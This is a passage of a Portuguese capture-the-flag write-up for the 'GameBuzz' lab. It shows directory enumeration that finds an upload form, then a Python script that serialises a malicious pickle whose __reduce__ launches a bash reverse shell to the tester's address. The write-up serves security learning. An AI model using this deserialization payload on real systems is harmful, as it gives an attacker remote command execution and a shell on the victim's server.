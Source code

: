 ```
http://dev.incognito.com/secret/.htpasswd            (Status: 403) [Size: 282]
http://dev.incognito.com/secret/upload               (Status: 200) [Size: 370]
                                                                              
===============================================================
2021/09/12 22:49:28 Finished
===============================================================
```
O gobuster trouxe o diretório `/upload`, ao acessá-lo, encontrei um formulário de upload.

<img src="/thm/thm-gamebuzz-7.png">

Como o diretório é `/upload` e a requisição do `Game Rattings` vai para o diretório `/var/upload/games`, tavlez estejamos falando do mesmo lugar, então decidi fazer um script em `python` para serializar um payload com reverse shell.

```
┌──(hastur㉿hastur)-[~/GameBuzz]
└─$ cat serialize.py 
#!/usr/bin/env python3

import pickle, os

class SerializedPickle(object):
    def __reduce__(self):
        return(os.system,("bash -c 'bash -i >& /dev/tcp/10.9.0.44/8443 0>&1'",))

pickle.dump(SerializedPickle(), open('hastur','wb'))
```
Este script irá salvar nosso payload em um arquivo para podermos subí-lo pelo formulário,

```
┌──(hastur㉿hastur)-[~/GameBuzz]
└─$ python3 serialize.py               
                                                                                                                     
┌──(hastur㉿hastur)-[~/GameBuzz]
└─$ ls -la
total 16
drwxr-xr-x  2 hastur hastur 4096 Sep 12 22:56 .
drwxr-xr-x 33 hastur hastur 4096 Sep 12 22:48 ..
-rw-r--r--  1 hastur hastur   87 Sep 12 22:56 hastur
-rw-r--r--  1 hastur hastur  236 Sep 12 22:54 serialize.py
```
